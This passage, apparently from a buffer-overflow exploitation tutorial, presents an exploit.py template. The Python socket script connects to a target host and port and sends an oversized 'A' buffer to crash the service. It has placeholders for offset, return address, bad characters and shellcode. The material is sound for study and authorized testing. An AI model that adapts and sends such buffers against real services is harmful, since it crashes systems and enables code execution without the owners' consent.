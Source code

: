 Once we know the number for a crash, we can now create our exploit and update the code with what we know. 

### Creating exploit.py

{% hint style="danger" %}
**Make sure to add any prefix commands, remove or add s.send and s.recv to mimic what we sent through netcat to the application.**
{% endhint %}

```text
#!/usr/bin/python
# ----info--------------------------------------------------------
# Software name: 
# Vulnerable Input: 
# Target IP: 
# PoC Crash Length: 
# Offset: 
# Bad Characters: \x00
# Vulnerable Module: 
# JMP ESP address [eg.0x1480111e]:
# JMP ESP address little endian [eg.\x1e\x11\x80\x14]: 
# Shellcode jump code: N/A

# !!! Comment what you are adjusting in the code !!!
import socket,sys
target = '<ip>' # Target IP
port = <port> # Target Port


#-----------Buffer-Values------------------------------------------
# offset = 
# retrn =
# padding =
# pattern = ("")
# badchars = ("")
# shellcode = ("")
fuzz = "A" * 3000
#-----------Exploit-Code--------------------------------------------
#Adjust s.recv an s.send for the application. Are you recieveing anything after connecting to the application?
try:
  print "\n[+]Sending evil buffer..."
  buffer = fuzz
# buffer = pattern
  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  s.connect((target,port)) #connects to application
  s.recv(1024) #receives welcome message (delete if there is no welcome message)
  s.send(buffer + '\r\n') #sends buffer
  s.recv(1024) #attempts to receive any output from program after buffer has been sent
except:
  print "\n[!]Could not connect[!]"
  sys.exit(0)
finally:
  s.close()
```
